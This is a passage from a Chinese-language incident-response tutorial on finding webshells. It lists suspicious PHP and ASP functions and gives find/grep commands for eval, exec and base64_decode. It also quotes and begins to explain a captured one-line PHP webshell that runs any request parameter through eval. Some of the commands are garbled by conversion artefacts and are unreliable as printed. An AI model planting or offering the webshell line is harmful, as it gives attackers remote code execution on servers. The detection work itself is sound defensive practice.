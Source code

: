 ```
     eval(base64_decode('encoded_string'));
```

3. **文件操作**

    * WebShell可能会包含文件操作函数，用于读取、写入或修改文件：

      * PHP: `fopen()`​, `fwrite()`​, `file_get_contents()`​, `file_put_contents()`​
      * ASP: `FileSystemObject`​
4. **网络操作**

    * WebShell可能会包含网络操作函数，用于与远程服务器通信：

      * PHP: `fsockopen()`​, `curl_exec()`​, `file_get_contents('http://...')`​
      * ASP: `WinHttp.WinHttpRequest`​

‍

**上面刚刚也说了我们可以尝试定位一些特殊的后缀文件，例如：.asp、.php、.jsp、.aspx。**

‍

命令：

	//搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征  
	find ./ type f -name " *.jsp&quot; | xargs grep &quot;exec(&quot;find ./ type f -name &quot;* .php" | xargs grep "eval("  
	find ./ type f -name " *.asp&quot; | xargs grep &quot;execute(&quot;find ./ type f -name &quot;* .aspx" | xargs grep "eval("

	//对于免杀Webshell，可以查看是否使用编码  
	find ./ type f -name "*.php" | xargs grep "base64_decode"

‍

一个一个进行尝试即可；

‍

	find ./ type f -name "*.php" | xargs grep "eval("

‍

> 1. ​`xargs`​：`xargs`​命令用于将输入数据重新格式化后作为参数传递给其他命令。在这个命令中，`xargs`​将`find`​命令找到的文件列表作为参数传递给`grep`​命令。
> 2. ​`grep "eval("`​：`grep`​命令用于搜索文本，并输出匹配的行。这里`"eval("`​是`grep`​命令的搜索模式，用于查找包含`eval(`​字符串的行。

‍

**可以看见这里PHP结尾的文件都不太正常；**

‍

	<?php phpinfo();@eval($_REQUEST[1]);?>

‍

这句想必如果大家之前有接触过web的都不会太陌生；

1. ​`<?php phpinfo(); ?>`​：

    * ​`<?php`​ 是 PHP 代码的开始标记。
    * ​`phpinfo()`​ 是一个内置的 PHP 函数，用于输出关于 PHP 配置的大量信息，包括 PHP 版本、服务器信息、环境变量、PHP 扩展等。这个函数通常用于调试和获取服务器配置信息。
    * ​`?>`​ 是 PHP 代码的结束标记。
2. ​`@eval($_REQUEST[1]);`​：
